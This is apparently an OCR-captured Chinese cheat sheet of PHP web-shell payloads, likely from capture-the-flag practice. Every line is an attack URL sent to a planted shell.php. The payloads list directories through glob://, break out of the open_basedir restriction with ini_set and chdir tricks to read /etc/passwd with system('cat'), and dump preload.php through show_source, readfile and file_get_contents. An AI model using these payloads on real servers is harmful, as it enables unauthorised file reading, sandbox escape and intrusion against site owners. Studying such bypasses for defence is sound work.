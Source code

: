 	第一种
	http://x.com/shell.php?a=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
	http://x.com/shell.php?a=if%20(%20$b%20=%20opendir(%22glob:///var/www/html/*.php%22)%20)%20{while%20(%20($file%20=%20readdir($b))%20!==%20false%20)%20{echo%20%22filename:%22.$file.%22\n%22;}closedir($b);}
	第二种
	http://x.com/shell.php?a=ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');system('cat ../../../../../etc/passwd');
	http://x.com/shell.php?a=mkdir(%22/tmp/crispr%22);chdir(%27/tmp/crispr/%27);ini_set(%27open_basedir%27,%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%27/%27);print_r(scandir(%27.%27))
	第三种
	命令执行绕过
	读文件
	?a=show_source('preload.php');
	?a=echo(readfile('preload.php'));
	?a=print_r(readfile('preload.php'));
	?a=echo(file_get_contents('preload.php'));
	?a=print_r(file_get_contents('preload.php'));